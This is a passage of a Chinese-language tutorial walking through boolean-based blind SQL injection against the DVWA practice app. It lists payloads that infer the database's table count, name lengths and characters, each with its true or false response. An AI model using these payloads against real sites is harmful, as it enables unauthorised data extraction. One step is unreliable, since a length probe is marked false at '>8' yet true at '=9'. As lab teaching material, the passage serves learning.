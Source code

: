 通过上述操作，推断出数据库名称为 `dvwa`。

3️⃣ 推断表名

3️⃣➡️1️⃣ 首先推断表的个数

```sql
1' and (select count(table_name) from information_schema.tables where table_schema=database()) > 10; #
 ❌ MISSING

1' and (select count(table_name) from information_schema.tables where table_schema=database()) > 5; #
 ❌ MISSING

1' and (select count(table_name) from information_schema.tables where table_schema=database()) > 2; #
 ❌ MISSING

1' and (select count(table_name) from information_schema.tables where table_schema=database()) = 2; # 
 ✅ exists
```

`dvwa` 数据库表的个数为 `2`

3️⃣➡️2️⃣ 接着推断第一张表的名称长度

```sql
1' and length((select table_name from information_schema.tables where 
table_schema=database() limit 0,1))>10;#
 ❌ MISSING

1' and length((select table_name from information_schema.tables where 
table_schema=database() limit 0,1))>5;#
 ❌ MISSING

1' and length((select table_name from information_schema.tables where 
table_schema=database() limit 0,1))>8;#
 ❌ MISSING
 
1' and length((select table_name from information_schema.tables where 
table_schema=database() limit 0,1))=9;#
 ✅ exists

## 也可以写成：
1' and length(substr((select table_name from information_schema.tables where 
table_schema=database() limit 0,1),1))=9;#
 ✅ exists
```

 第一张表名长度为 `9`

3️⃣➡️3️⃣ 依次推断第一张表的名称的 9 个字符

```sql
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>88;#
 ✅ exists

1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>105;#
 ❌ MISSING

1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>96;#
 ✅ exists

```